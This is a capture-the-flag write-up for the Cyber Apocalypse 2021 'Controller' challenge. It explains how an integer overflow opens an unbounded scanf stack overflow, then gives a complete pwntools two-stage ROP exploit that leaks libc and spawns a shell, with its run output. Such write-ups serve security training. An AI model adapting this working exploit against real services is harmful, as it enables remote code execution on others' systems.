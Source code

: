 # Cyber Apocalypse 2021

## Controller

> The extraterrestrials have a special controller in order to manage and use our resources wisely, in order to produce state of the art technology gadgets and weapons for them. If we gain access to the controller's server, we can make them drain the minimum amount of resources or even stop them completeley. Take action fast!
> 
> This challenge will raise 33 euros for a good cause.
>
> [`pwn_controller.zip`](pwn_controller.zip)

Tags: _pwn_ _x86-64_ _integer-overflow_ _rop_ _bof_ _scanf_


## Summary

Integer overflow to a textbook two-pass (leak/pwn) BOF/ROPchain.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Full RELRO, no got-overwrite.  No canary and no PIE, easy BOF, easy ROP.


### Decompile with Ghidra

```c
void calculator(void)
{
  char local_28 [28];
  uint local_c;
  
  local_c = calc();
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf(&%s,local_28);
    if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```

`scanf("%s",local_28)` is basically `gets` since the `%s` is unbounded.  If we can get `calc()` to return `0xff3a` (65338), then we can use a classic ROPchain to leak libc and get a shell.

```c
uint calc(void)
{
  float fVar1;
  uint local_18;
  uint local_14;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&local_14,&local_18);
  local_10 = menu();
  if ((0x45 < (int)local_14) || (0x45 < (int)local_18)) {
    printstr("We cannot use these many resources at once!\n");
    exit(0x69);
  }
  if (local_10 == 2) {
    local_c = sub(local_14,local_18);
    printf("%d - %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
    return local_c;
  }
  if (local_10 < 3) {
    if (local_10 == 1) {
      local_c = add(local_14,local_18);
      printf("%d + %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
  }
  else {
    if (local_10 == 3) {
      local_c = mult(local_14,local_18);
      local_c = local_c & 0xffff;
      printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
    if (local_10 == 4) {
      fVar1 = divi(local_14,local_18);
      local_c = (uint)(long)fVar1;
      printf("%d / %d = %d\n",(ulong)local_14,(ulong)local_18,(long)fVar1 & 0xffffffff);
      return local_c;
    }
  }
  printstr("Invalid operation, exiting..\n");
  return local_c;
}
```

Returning `0xff3a` (65338) out of `calc` is trivial since `((0x45 < (int)local_14) || (0x45 < (int)local_18))` will allow negative numbers--integer overflow.

`0 - -65338` = `65338`; our key to admission.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./controller')

if args.REMOTE:
    p = remote('188.166.172.13',30995)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.sendlineafter('recources: ','0 -65338')
p.sendlineafter('> ','2')

pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = 0x28 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.calculator)

p.sendlineafter('> ',payload)

p.recvuntil('ingored\n')
_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

p.sendlineafter('recources: ','0 -65338')
p.sendlineafter('> ','2')

payload  = b''
payload += 0x28 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendlineafter('> ',payload)
p.recvuntil('ingored\n')
p.interactive()
```

Basic two pass ROPchain.  Both passes start with `0x28` (`local_28`, see Ghidra stack diagram) bytes of garbage.

First, leak libc with `puts`, and then loop around for a second pass.

With the libc location known, and libc provided, pop a shell.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/cyberapocalypsectf2021/controller/controller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 188.166.172.13 on port 30995: Done
[*] '/pwd/datajerk/cyberapocalypsectf2021/controller/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0x7fb46fa22aa0
[*] libc.address: 0x7fb46f9a2000
[*] Switching to interactive mode
$ cat flag.txt
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```
